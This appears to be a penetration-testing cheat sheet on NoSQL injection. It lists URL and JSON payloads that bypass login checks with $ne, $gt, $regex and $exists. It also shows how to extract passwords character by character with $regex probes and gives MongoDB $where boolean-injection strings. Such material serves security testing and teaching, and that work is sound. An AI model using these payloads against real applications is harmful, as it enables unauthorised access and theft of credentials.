 # NoSQL Injection

## Theory 

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Practice

### Authentication Bypass
Using not equal ($ne) or greater ($gt) we can try to bypass authentication
{% tabs %}

{% tab title="URL" %}
```
username[$ne]=toto&password[$ne]=toto          #Not Equal
username[$regex]=.*&password[$regex]=.*        #Regex
username[$exists]=true&password[$exists]=true  #If Exist
username[$ne]=admin&password[$gt]=0            #Greater
```
{% endtab %}

{% tab title="JSON" %}
```
{"username": {"$ne": null}, "password": {"$ne": null} }             #Not Equal
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }           #Not Equal
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }   #greater
```
{% endtab %}

{% endtabs %}


### Extract data

{% tab title="URL" %}
We can use regex to find the lenght of a value
```
username[$regex]=.{25}&pass[$ne]=1
```

We can use regex to extract informations.
```
username[$eq]=admin&password[$regex]=^p
username[$eq]=admin&password[$regex]=^pa
username[$eq]=admin&password[$regex]=^pas

username[$ne]=toto&password[$regex]=^p
username[$ne]=toto&password[$regex]=^pa
username[$ne]=toto&password[$regex]=^pas
```
We can use `$nin` (not in) if you don't want to match with some values.
```
#<Matches non of the values of the array> (not test and not admin)
username[$nin][admin]=admin&username[$nin][test]=test&password[$regex]=^p
```
{% endtab %}

{% tab title="JSON" %}
We can use regex to find the lenght of a value
```
{"username": {"$eq": "admin"}, "password": {"$regex": ".{25}" }}
```

We can use regex to extract informations.
```
{"username": {"$eq": "admin"}, "password": {"$regex": "^p" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pa" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pas" }}
```
We can use `$nin` (not in) if you don't want to match with some values.
```
#<Matches non of the values of the array> (not test and not admin)
{"username":{"$nin":["admin", "test"]}, "username":{"$regex": "^user" } ,"password":{"$ne":"1"}} 
```
{% endtab %}

{% endtabs %}

### MangoDB Injection
{% tabs %}
You may try to make boolean based injection on MongoDB with following payloads
{% tab title="Payloads" %}
```
, $where: '1 == 1'
$where: '1 == 1'
' || 1==1//
' || 1==1%00
```
{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-length-information" %}